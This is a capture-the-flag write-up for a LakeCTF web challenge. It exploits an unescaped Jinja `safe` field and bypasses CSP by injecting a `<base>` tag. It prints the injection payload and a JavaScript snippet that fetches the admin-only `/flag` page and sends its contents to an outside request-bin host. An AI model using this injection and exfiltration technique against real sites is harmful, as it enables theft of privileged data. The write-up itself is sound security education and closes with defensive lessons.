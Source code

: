 # LakeCTF - People Challenge Writeup (Web)

# Part 0: Reconnaissance
We receive a link to the challenge environment and the source code + Docker files for the backend. 
The target webpage has only a few very simple functionalities: register, login, edit profile and report profile.
![Registering page](/Assets/Pasted%20image%2020220926184329.png)

Profile page
![Profile page](/Assets/Pasted%20image%2020220926184513.png)

The most interesting functionality of course is "Report profile", because when clicking it, the user is displayed a text saying "Thank you, an admin will review your report shortly.", hinting that there is a bot in the backend, that we somehow have to abuse. 

The flag in this challenge is an environment variable that's only admin accessible on the path `/flag`
```Python
@main.route('/flag')
def flag():
    if request.cookies.get('admin_token') == admin_token:
        return os.getenv('FLAG') or 'flag{flag_not_set}'
    else:
        abort(403)
```

# Part 1: Strategizing
The source code indeed reveals that there is a bot with an admin cookie that will shortly visit your profile page.
```Python
from pyppeteer import launch
import asyncio

async def visit(user_id, admin_token):
    url = f'http://web:8080/profile/{user_id}'
    print("Visiting", url)
    browser = await launch({'args': ['--no-sandbox', '--disable-setuid-sandbox']})
    page = await browser.newPage()
    await page.setCookie({'name': 'admin_token', 'value': admin_token, 'url': 'http://web:8080', 'httpOnly': True, 'sameSite': 'Strict'})
    await page.goto(url)
    await asyncio.sleep(3)
    await browser.close()
```

My first strategy idea of leaking the bot's `admin_token` cookie proved to be false, because the cookie has the `httpOnly` flag set and this prevents if from being accessed by JavaScript.  

My second strategy idea is to implant an XSS to the user's profile that makes a request to `/flag` and then sends the data over to us. The logic seems sound, so on the execution.

# Part 2: Injection search
To implant out malicious JavaScript we needed to find an input field that was unsanitized. Problem is that Flask (the web framework in this challenge) by default automatically escapes HTML from inputs when it renders templates.
For a while we were looking at the user's biography input section, since it supported Markdown input and used the Marked JS library for parsing that input. Though it is sanitized using the DOMPurify library, similar configurations have in the past been exploitable.
```JavaScript
  var markdown = document.querySelectorAll(".markdown");
  for (var i = 0; i < markdown.length; i++) {
	var html = marked.parse(markdown[i].innerHTML, {
	  breaks: true
	});
	html = DOMPurify.sanitize(html, { USE_PROFILES: { html: true } });
	markdown[i].innerHTML = html;
  }```

We were however unable to find an XSS this way. After some searching one of us went to check what the `safe` option in the template input meant.
```JavaScript
{% set description = '%s at %s' % (user['title'], user['lab']) %}
{% block title %}{{user['fullname']}} | {{description|safe}}{% endblock %}
```

It turned out that `safe` unintuitively means "trust this input, it's safe, don't escape it". This was well phrased in this [StackOverflow thread](https://stackoverflow.com/questions/48975383/why-to-use-safe-in-jinja2-python). We therefore had our injection point! Either the `title` or the `lab` value from the user's profile. 

# Part 3: Exploitation
We then quickly rushed to use this injection point for our JavaScript and indeed we were able to inject the payload `<script>alert(1)</script>` but disappointingly, the content of the script wasn't executed. Turned out that we were being blocked by the site's CSP and required a nonce value to execute our script.

![CSP](/Assets/Pasted%20image%2020220928134157.png)
Other scripts had their nonce injected.
```HTML
    <script src="/static/js/marked.min.js" nonce="{{ csp_nonce() }}"></script>
    <script src="/static/js/purify.min.js" nonce="{{ csp_nonce() }}"></script>
```

After searching for some [HTML scriptless injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) searching I came across the possibility of setting our own `<base>` tag. Since both scripts were loaded using a relative path, we could serve them on our own web server and by setting the `<base>` tag to out web server have the bot query our scripts when visiting our profile.

We first used a request bin as a proof of concept and registered a new user with our payload `</title><base href="https://enz1qwuixexc.x.pipedream.net/">` and it worked!
![](/Assets/Pasted%20image%2020220928135615.png)

![](/Assets/Pasted%20image%2020220928144055.png)

As our PoC worked, we then just made a short script that fetches the content of `/flag`, uploaded it to our web server as `marked.min.js` and reported our profile.
```JavaScript
function reqListener () {
  fetch("https://enj1mevg4ope.x.pipedream.net/?"+this.responseText);
}
const req = new XMLHttpRequest();
req.addEventListener("load", reqListener);
req.open("GET", "http://web:8080/flag");
req.send();
```
This nicely returned us the flag `EPFL{Th1s_C5P_byp4ss_1s_b4sed}`.

# Part 4: Take-aways
There are some security related take-aways from this challenge:
1. CTF solving wise - don't assume that when an option specifies `safe` it is actually "safe". Recheck what each parameter/flag means if you don't know.
2. As a developer - there are ways around CSP-s so it is important to use full references for scripts instead of relative references.